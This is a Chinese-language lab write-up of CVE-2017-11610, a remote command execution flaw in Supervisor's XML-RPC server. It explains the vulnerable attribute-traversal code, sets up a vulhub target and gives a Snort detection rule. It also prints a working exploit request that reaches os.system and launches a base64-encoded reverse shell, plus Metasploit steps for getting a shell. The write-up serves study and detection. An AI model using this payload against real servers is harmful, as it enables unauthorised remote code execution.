

# 0x0 前言
### CVE-2017-11610 Description  
The XML-RPC server in **supervisor** before 3.0.1, 3.1.x before 3.1.4, 3.2.x before 3.2.4, and 3.3.x before 3.3.3 allows remote authenticated users to execute arbitrary commands via a crafted XML-RPC request, related to **nested supervisord namespace lookups**.

### Supervisor
Supervisor is a client/server system that allows its users to monitor and control a number of processes on UNIX-like operating systems.

### 原理簡介
此CVE是由不安全的物件查找+呼叫所造成，先看exploit封包：

```xml
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 275

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>echo -n #{Rex::Text.encode_base64(reverse_shell_payload)}|base64 -d|nohup bash > /dev/null 2>&1 &</string>
</param>
</params>
</methodCall>
```
主要paload為\<methodName\>所包起來的部分與\<string\>所包起來的部分。  
再來看造成漏洞的程式碼區塊：

```python
def traverse(ob, method, params):
    path = method.split('.')
    for name in path:
        if name.startswith('_'):
            # security (don't allow things that start with an underscore to
            # be called remotely)
            raise RPCError(Faults.UNKNOWN_METHOD)
        ob = getattr(ob, name, None) # 1
        if ob is None:
            raise RPCError(Faults.UNKNOWN_METHOD)

    try:
        return ob(*params) # 2
    except TypeError:
        raise RPCError(Faults.INCORRECT_PARAMETERS)
```
傳入traverse的ob, method, params分別為supervisor的母物件以及反序列化得來的\<methodName\>物件與\<params\>物件，而在註解標上#1的部分會造成程式依循method的填入值而不斷往下做物件的查找，以payload為例，會從supervisor一路往下查找到os.system，再加上#2的部分會直接做呼叫，且參數是params，因此造成RCE，屬於反序列化類的漏洞，主要目的是查找「物件內」有import os的地方，如/usr/local/lib/python2.7/linecache.py中有直接import os。  
至於/usr/local/lib/python2.7/site-packages/supervisor/options.py也有import os，但不行是因為這邊查找的supervisor.supervisord.options是在options.py中的Options物件，其物件中並沒有os，因此payload才會從supervisor.supervisord.options.warnings再繼續往下查找。


* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令


# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Ubuntu 20.04)


# 0x2 受攻擊機環境建置
### 搭建Supervisor伺服器
1. `sudo snap install docker`，下載最新版本docker

2. `sudo apt install docker-compose`，安裝docker-compose

3. `git clone https://github.com/vulhub/vulhub.git`

4. `cd vulhub/supervisor/CVE-2017-11610/`，切換至CVE-2017-11610所在目錄

5. `sudo docker-compose up -d`，建立container在**http://<受攻擊機IP>:9001**

6. 開啟瀏覽器，於網址列輸入`127.0.0.1:9001`，可以看到Supervisor的web介面  



# 0x3 攻擊機環境建置
### msfconsole
1. `use exploit/linux/http/supervisor_xmlrpc_exec`，使用module

2. `set rhosts <受攻擊機IP(192.168.153.145)>`，設定受攻擊機IP

3. `set lhost <攻擊機IP(192.168.153.147)>`，設定攻擊機IP

4. `run`，執行exploit  


5. `getuid`，可以看到取得的是執行supervisor的使用者權限  


# 0x4 Snort/Suricata Rule
1. alert tcp $EXTERNAL_NET any -> $HOME_NET 9001 (msg:"SERVER-OTHER Supervisord remote code execution attempt"; flow:to_server,established; content:"/RPC2"; fast_pattern:only; file_data; content:"<methodCall>"; content:"<methodName>supervisor.supervisord.options."; distance:0; content:"</methodName>"; distance:0; content:"<params>"; distance:0; content:"<param>"; distance:0; content:"<string>"; distance:0; metadata:policy max-detect-ips drop, policy security-ips drop, service http; reference:cve,2017-11610; reference:url,supervisord.org/; classtype:attempted-user; sid:44483; rev:2;)


# 0x5 Reference
* https://www.anquanke.com/post/id/225451
* https://vulhub.org/#/environments/supervisor/CVE-2017-11610/
* https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
* https://www.exploit-db.com/exploits/42779

